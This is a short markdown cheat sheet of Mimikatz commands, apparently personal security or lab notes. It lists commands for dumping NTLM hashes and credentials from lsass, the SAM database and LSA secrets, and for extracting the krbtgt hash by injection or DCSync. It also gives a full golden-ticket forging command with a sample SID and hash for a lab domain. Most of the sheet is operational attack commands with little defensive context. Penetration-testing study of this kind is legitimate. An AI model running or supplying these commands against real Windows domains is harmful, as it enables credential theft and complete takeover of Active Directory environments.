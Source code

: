 ```yaml
---
title: Mimikatz
tags: [security, windows, enumeration, exploitation]
---
```


Mimikatz requires Admin privileges to function property  
Check Privilege : `privilege::debug`  
Output : 20 OK (We have sufficient privileges)

`log <filename>`  
Logs all commands into a log file

---

### Dumping Hashes

LSA : Local Security Authority  
lsass.exe : Local Security Authority Subsystem Service  
SAM : Security Accounts Manager

`sekurlsa::logonpasswords`  
Returns NTLM passwords stored in memory using lsass.exe service  
On older versions of Windows plaintext passwords where returned

`lsadump::sam`  
Dump content of SAM database

`lsadump::lsa`  
Dump LSA credentials  
If NTLM hashes are not shown use the `/patch` option

---

### Kerberos Golden Ticket Attack

For getting the Golden Ticket we need to have access to a user that has some sort of Admin privilege on Active Directory

`lsadump::lsa /inject /name:krbtgt`  
Retrieve the Hash of the krbtgt account from the Domain Controller

`lsadump::dcsync /domain:controller.local /user:krbtgt`  
Fetch Hash of Kerberos account using Dcsync Feature

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500`  
Generate a Golden Ticket and add in current session  
`/user` : Can use any name  
`/sid` : Krbtgt user sid  
`/krbtgt` : NTLM Hash  
`/id` : Id of domain admin account (Usually 500)

---

**<u>References</u>**:

* [Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
